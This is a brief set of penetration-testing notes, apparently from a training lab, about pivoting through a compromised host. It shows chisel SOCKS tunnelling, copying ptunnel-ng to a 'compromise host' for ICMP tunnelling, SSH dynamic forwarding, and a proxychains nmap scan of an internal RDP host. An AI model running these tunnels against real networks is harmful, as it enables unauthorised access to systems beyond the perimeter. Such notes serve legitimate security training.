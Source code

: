 # Defense_Evation
monthly assessment

Chisel:

	server
		./chisel_1.7.6_linux_amd64 server -v -p 9001 --socks5
	client
		./chisel client -v 10.10.16.23:9001 socks
PTunel-ng:

    Copy the file to the pivot - compromise the host
		scp -r ptunnel-ng ubuntu@10.129.202.64:~/
	  Start tunnel in the compromise host (10.129.202.64)
		sudo ./ptunnel-ng -r10.129.202.64 -R22
	  connecting from the attacker host
		sudo ./ptunnel-ng -p10.129.202.64 -l2222 -r10.129.202.64 -R22

	Validation
		ssh -p2222 -lubuntu 127.0.0.1

	enabling dynamic port forwarding over ssh
		ssh -D 9050 -p2222 -lubuntu 127.0.0.1

	accesing final host via RDP (host accesible from compromised host without tunnel)
		proxychains nmap -sV -sT 172.16.5.19 -p3389
